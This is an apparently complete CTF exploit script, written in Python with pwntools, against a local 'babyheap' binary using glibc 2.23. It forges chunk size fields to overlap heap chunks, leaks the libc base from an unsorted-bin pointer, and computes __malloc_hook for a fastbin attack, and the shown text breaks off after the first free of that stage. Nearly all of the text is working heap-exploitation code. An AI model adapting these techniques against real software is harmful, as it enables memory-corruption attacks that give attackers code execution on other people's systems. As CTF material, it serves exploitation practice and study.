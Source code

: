 ### 完整exp

```python
#!/use/bin/env python
from pwn import *

# context.log_level = 'debug'

def alloc(size):
    p.sendline('1')
    p.sendlineafter(': ', str(size))
    p.recvuntil(': ', timeout=1)

def fill(idx, data):
    p.sendline('2')
    p.sendlineafter(': ', str(idx))
    p.sendlineafter(': ', str(len(data)))
    p.sendafter(': ', data)
    p.recvuntil(': ')

def free(idx):
    p.sendline('3')
    p.sendlineafter(': ', str(idx))
    p.recvuntil(': ')

def dump(idx):
    p.sendline('4')
    p.sendlineafter(': ', str(idx))
    p.recvuntil(': \n')
    data = p.recvline()
    p.recvuntil(': ')
    return data


p = process('./babyheap')
libc = ELF('/lib/x86_64-linux-gnu/libc-2.23.so')

# -------- leak libc --------

alloc(0x10) # 0
alloc(0x40) # 1
alloc(0x80) # 2
alloc(0x10) # 3

fill(0, 'a'*0x10 + p64(0) + p64(0x71))
fill(2, 'b'*0x10 + p64(0) + p64(0x71))
free(1)

alloc(0x60) # 1
fill(1, 'c'*0x40 + p64(0) + p64(0x91))
free(2)

libc_base = u64(dump(1)[-9:-1]) - 0x3c4b78
log.info('libc base = ' + hex(libc_base))

pause()

# -------- fast attack --------

malloc_hook = libc.symbols['__malloc_hook'] + libc_base
log.info("malloc_hook @ " + hex(malloc_hook))

free(1)
```